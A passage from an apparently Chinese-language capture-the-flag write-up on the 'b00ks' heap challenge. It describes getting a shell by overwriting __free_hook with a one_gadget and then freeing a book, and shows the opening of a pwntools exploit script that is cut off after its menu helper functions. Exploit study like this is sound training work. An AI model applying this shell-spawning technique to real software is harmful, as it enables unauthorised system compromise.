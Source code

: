 - 最后`getshell`的思路为，先向伪造的结构体`fake_book1`的`description`中部署`free_hook`，然后向`book2`的`description`中写入`onegadget`，最后在释放`book2`的时候就可以触发`execve('/bin/sh')`

```python
from pwn import *

context(arch='amd64', os='linux', log_level='debug')

r = process('./b00ks')
elf = ELF('b00ks')
libc = ELF('/lib/x86_64-linux-gnu/libc.so.6')

def create_author(name):
    r.recvuntil(b'Enter author name: ')
    r.sendline(name)

def create_book(name_size, name, description_size, description):
    r.recvuntil(b'>')
    r.sendline(b'1')
    r.recvuntil(b'Enter book name size: ')
    r.sendline(name_size)
    r.recvuntil(b'Enter book name (Max 32 chars): ')
    r.sendline(name)
    r.recvuntil(b'Enter book description size: ')
    r.sendline(description_size)
    r.recvuntil(b'Enter book description: ')
    r.sendline(description)
    log.info('create book')

def delete_book(index):
    r.recvuntil(b'>')
    r.sendline(b'2')
    r.recvuntil(b'Enter the book id you want to delete: ')
    r.sendline(index)
    log.info('delete book')

def edit_book(index, description):
    r.recvuntil(b'>')
    r.sendline(b'3')
    r.recvuntil(b'Enter the book id you want to edit: ')
    r.sendline(index)
    r.recvuntil(b'Enter new book description: ')
    r.sendline(description)
    log.info('edit book')

def print_book(index):
    r.recvuntil(b'>')
    r.sendline(b'4')
    for i in range(index):
        r.recvuntil(b': ')
        book_id = r.recvline()[:-1]
        r.recvuntil(b': ')
        book_name = r.recvline()[:-1]
        r.recvuntil(b': ')
        book_description = r.recvline()[:-1]
        r.recvuntil(b': ')
        book_author = r.recvline()[:-1]
    log.info('print book')
    return book_id, book_name, book_description, book_author

def change_author(name):
    r.recvuntil(b'>')
    r.sendline(b'5')
    r.recvuntil(b'Enter author name: ')
```